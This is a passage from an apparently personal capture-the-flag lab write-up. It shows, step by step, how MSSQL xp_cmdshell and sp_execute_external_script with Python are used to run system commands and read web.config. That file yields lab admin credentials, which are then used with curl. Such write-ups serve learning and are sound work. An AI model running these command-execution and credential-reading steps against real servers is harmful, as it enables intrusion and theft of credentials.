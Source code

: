 ```sql
xp_cmdshell whoami
---------------------------
nt service\mssql$poo_public
```
>[!bug] Enumerating in `wwwroot` we can find a `web.config` file
```sql
xp_cmdshell dir C:\inetpub\wwwroot
```
>[!tip] But we dont have permissions to read it
```sql
xp_cmdshell type C:\inetpub\wwwroot\web.config
-----------------
Access is denied
```
>[!danger] We can try to execute commands using the python module `sp_execute_external_script`
```sql
exec sp_configure 'external scripts enabled', 1
exec sp_execute_external_script @language=N'python', @script=N'import os; os.system("whoami");';
```
>[!bug] Let's see if we can read the `XML` file now
```sql
exec sp_execute_external_script @language=N'python', @script=N'import os; os.system("type C:\inetpub\wwwroot\web.config");';
```
>[!tip] Note the admin credentials
```
name="Administrator"
password="EverybodyWantsToWorkAtP.O.O."
```
>[!danger] Use `curl` to login on `/admin`
```sh
curl http:/10.13.38.11/admin/ -u Administrator:EverybodyWantsToWorkAtP.O.O.
```
# Foothold
